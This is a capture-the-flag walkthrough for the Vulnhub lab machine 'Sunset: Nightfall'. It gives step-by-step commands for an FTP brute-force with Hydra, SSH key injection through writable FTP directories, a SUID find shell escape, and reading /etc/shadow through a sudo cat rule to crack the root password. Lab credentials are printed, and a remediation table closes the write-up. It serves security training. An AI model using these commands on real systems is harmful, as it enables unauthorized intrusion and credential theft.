





# Sunset: Nightfall — Writeup

| Field | Value |
|---|---|
| **Target IP** | 192.168.0.24 |
| **Difficulty** | Easy |
| **OS** | Linux |
| **Goal** | root flag |
| **Source** | [HackingArticles](https://www.hackingarticles.in/sunset-nightfall-vulnhub-walkthrough/) |

## Attack Summary

Sunset: Nightfall is a beginner-friendly Linux machine. The attack path involves FTP brute-force to obtain valid credentials, SSH key injection via the writable FTP home directory, lateral movement using a SUID `find` binary to switch users, and final privilege escalation through a `sudo` misconfiguration that allows reading `/etc/shadow` as root to crack the root password.

## Methodology

1. Host discovery with netdiscover
2. Port scan with nmap — FTP (21) and SMB identified
3. Username enumeration with enum4linux
4. FTP brute-force with Hydra
5. SSH key injection via FTP
6. Lateral movement via SUID `find` binary
7. Shadow file read via sudo misconfiguration
8. Root password cracking with John the Ripper

## Step 1: Reconnaissance

### Host Discovery

```bash
netdiscover -r 192.168.0.0/24
```

Target discovered at **192.168.0.24**.

### Port Scan

```bash
nmap -A -p- $TARGET
```



Key open ports:

| Port | Service | Version |
|---|---|---|
| 21/tcp | FTP | pyftpdlib |
| 139/tcp | netbios-ssn | Samba |
| 445/tcp | microsoft-ds | Samba |

HTTP was also checked but returned no useful content.

## Step 2: Enumeration

### SMB / User Enumeration

```bash
enum4linux 192.168.0.24
```



Two local usernames discovered: `nightfall` and `matt`.

## Step 3: FTP Brute-Force

Using the discovered usernames, brute-force the FTP service with Hydra:

```bash
hydra -l matt -P /usr/share/wordlists/rockyou.txt 192.168.0.24 ftp -e nsr
```



Credentials found: `matt : Cheese`

## Step 4: SSH Key Injection via FTP

Log in to FTP and attempt to write to `/var/www/html` — this fails. Instead, inject an SSH public key into the user's home directory:

```bash
# Generate SSH key pair (blank passphrase)
ssh-keygen -t rsa -b 2048 -f /tmp/nightfall_key -N ""

# Copy public key to file named authorized_keys
cp /tmp/nightfall_key.pub /tmp/authorized_keys

# Connect to FTP and create .ssh directory
ftp 192.168.0.24
# Login: matt / Cheese
ftp> mkdir .ssh
ftp> cd .ssh
ftp> put /tmp/authorized_keys
ftp> bye
```

## Step 5: SSH Login as matt

```bash
ssh -i /tmp/nightfall_key matt@192.168.0.24
```



Initial shell as `matt`.

## Step 6: Lateral Movement — SUID find

Search for binaries with the SUID bit set:

```bash
find / -perm -u=s -type f 2>/dev/null
```

The binary `/script/find` has SUID set and is owned by `nightfall`. Use it to spawn a shell as `nightfall`:

```bash
cd /script
./find . -exec /bin/sh -p \; -quit
```

This gives a shell running as `nightfall`. Read the user flag:

```bash
cat /home/nightfall/user.txt
```

To get a stable SSH session as `nightfall`, repeat the key injection into `/home/nightfall/.ssh/`:

```bash
ftp 192.168.0.24
# Login: matt / Cheese
ftp> cd /home/nightfall
ftp> mkdir .ssh
ftp> cd .ssh
ftp> put /tmp/authorized_keys
ftp> bye

ssh -i /tmp/nightfall_key nightfall@192.168.0.24
```

## Step 7: Privilege Escalation — sudo cat + Shadow

Check sudo privileges for `nightfall`:

```bash
sudo -l
```

Output shows: `(root) NOPASSWD: /bin/cat`

Use this to read the shadow file:

```bash
sudo -u root cat /etc/shadow
```

Copy the root hash and crack it with John the Ripper:

```bash
echo 'root:$6$...' > /tmp/root.hash
john --wordlist=/usr/share/wordlists/rockyou.txt /tmp/root.hash
```

Cracked root password: **miguel2**

## Step 8: Root Shell and Flag

```bash
su -
# Password: miguel2

cat /root/flag.txt
```



## Lessons Learned

- FTP services with writable home directories allow SSH key injection even without a shell.
- SUID binaries on non-standard paths (e.g., `/script/find`) are high-value targets during enumeration.
- `sudo cat` on `/etc/shadow` enables offline password cracking and full compromise.

## Remediation

| Vulnerability | Fix |
|---|---|
| FTP brute-force | Enforce account lockout; use key-based auth or disable FTP entirely |
| Writable `.ssh` via FTP | Restrict FTP chroot; use `AllowUsers` in sshd_config |
| SUID `find` binary | Remove SUID bit: `chmod u-s /script/find` |
| `sudo cat /etc/shadow` | Remove the sudo rule; use PAM or dedicated audit tools instead |
| Weak root password | Enforce strong password policy; disable direct root login |
